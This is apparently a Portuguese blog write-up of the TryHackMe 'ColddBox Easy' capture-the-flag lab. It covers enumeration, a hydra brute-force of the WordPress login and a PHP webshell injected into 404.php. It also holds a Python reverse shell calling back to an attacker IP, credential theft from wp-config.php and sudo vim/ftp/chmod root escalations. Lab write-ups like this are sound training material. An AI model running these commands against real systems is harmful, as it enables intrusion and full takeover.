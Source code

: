 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryhackMe - ColddBox - Fácil
date: 2024-01-08 02:26:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, sudo, wordpress, facil]     # TAG names should always be lowercase
show_image_post: true
---
```


![logo](/assets/img/ColddBox3.png){: w="100" h="100" .left}

___

# TryhackMe - ColddBox Fácil
---
---
## Enumeração

Ao acessar o site chequei com a extensão wappalyser

![Alt text](/assets/img/ColddBox1.png)

Wordpress encontrando rodei o 

### nmap

```text
──(kali💀kali)-[~]
└─$ sudo nmap 10.10.161.138 -Pn -sV        
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-07 20:52 EST
Nmap scan report for 10.10.161.138
Host is up (0.22s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.00 seconds
```
{: .nolineno }
 
### gobuster


```text
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/hidden               (Status: 200) [Size: 340]
/server-status        (Status: 403) [Size: 278]
/wp-content           (Status: 200) [Size: 0]
/wp-includes          (Status: 200) [Size: 26809]
Progress: 20469 / 20470 (100.00%)
/wp-admin             (Status: 200) [Size: 2567]
===============================================================
Finished
===============================================================
```
{: .nolineno }

de interessante apenas /hidden e a pagina de login do wordpress /wp-admin

conteúdo da /hidden

```htm
U-R-G-E-N-T

C0ldd, you changed Hugo's password, when you can send it to him so he can continue uploading his articles. Philip
```
{: .nolineno }

### wpscan
 
 Me retornou alguns usuários validos
 
```text
 [+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```
{: .nolineno }
## Acesso

### hydra

Adicionei os 3 em users.txt

* c0ldd
* philip
* hugo


Tentei usar o patator por achar mais rápido, mas nao ficou estável,  por má configuração ou sei la...
Optei então pelo hydra

```shell
hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 10.10.161.138 http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 60 -F 
```
{: .nolineno }

Rapidamente me retornou login e senha

```text
[80][http-post-form] host: 10.10.161.138   login: c0ldd   password: 9876543210
```
{: .nolineno }

### Reverse Shell

Pesquisei por métodos de reverse shell encontrei esses
[aqui](https://gab3.medium.com/t%C3%A9cnicas-para-conseguir-reverse-shell-em-ambientes-wordpress-ede0b289a644)

Tentei o método do plugin as vezes retornava um erro, não sei se por conta do lag com servidor.
Optei pelo método de injetar a reverse shell  na 404.php

**Apenas adicionei o código na 404.php**

```php
echo shell_exec($_GET["cmd"]);
```
{: .nolineno }
![Alt text](/assets/img/ColddBox2.png)

Ao executar a pagina 404.php no navegador temos uma webshell que podemos executar comandos.

```text
Exemplo
/404.php?cmd=ls
```
{: .nolineno }

Tentei usar socat com wget e foi sem exito então , optei pelo python

```text
http://10.10.161.138/wp-content/themes/twentythirteen/404.php?cmd=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.6.125.125%22,4443));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import%20pty;%20pty.spawn(%22sh%22)%27
```
{: .nolineno }

**Upgrade para shell interativa**

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")';
ctrl+z
stty raw -echo;fg
export TERM=xterm-256color
```
{: .nolineno }

## Escalação de privilégio

Por pesquisa descobri que  wp-config.php contem login:senha do mysql

```text
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'colddbox');

/** MySQL database username */
define('DB_USER', 'c0ldd');

/** MySQL database password */
define('DB_PASSWORD', 'cybersecurity');
```
{: .nolineno }
Nada de útil encontrando no DB

/etc/passwd sem permissões de escrita

Tentei logar com as credencias do db na maquina e OK

```bash
su - c0ldd 
c0ldd@ColddBox-Easy:~$ 

Primeira flag obtida
c0ldd@ColddBox-Easy:~$ cat user.txt 
RmVsaWNpZGFkZXMsIHByaW1lciBuaXZlbCBjb25zZWd1aWRvIQ==
```
{: .nolineno }
Com sudo -l, é possível ver três formas de obter root, optei pelo vim.


```shell
c0ldd@ColddBox-Easy:~$ sudo -l
[sudo] password for c0ldd: 
Coincidiendo entradas por defecto para c0ldd en ColddBox-Easy:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario c0ldd puede ejecutar los siguientes comandos en ColddBox-Easy:
    (root) /usr/bin/vim
    (root) /bin/chmod
    (root) /usr/bin/ftp
c0ldd@ColddBox-Easy:~$ sudo -u root vim -c ':!/bin/bash'
root@ColddBox-Easy:/# 
```
{: .nolineno }
com cat em /root.txt obtivemos a ultima flag

wqFGZWxpY2lkYWRlcywgbcOhcXVpbmEgY29tcGxldGFkYSE=

**Obter root com ftp**

sudo -u root ftp
ftp> !/bin/bash

**Obter root com chmod**

sudo -u root chmod 4775 /bin/bash

O 4 no início representa a permissão SUID (Set User ID). Quando definido em um arquivo executável, permite que um usuário que execute o arquivo temporariamente assuma as permissões do proprietário do arquivo. No caso do /bin/bash, isso permitiria que o usuário que o execute temporariamente tenha privilégios de root durante a execução.

bash -p

O argumento p preserva o bit SUID do  arquivo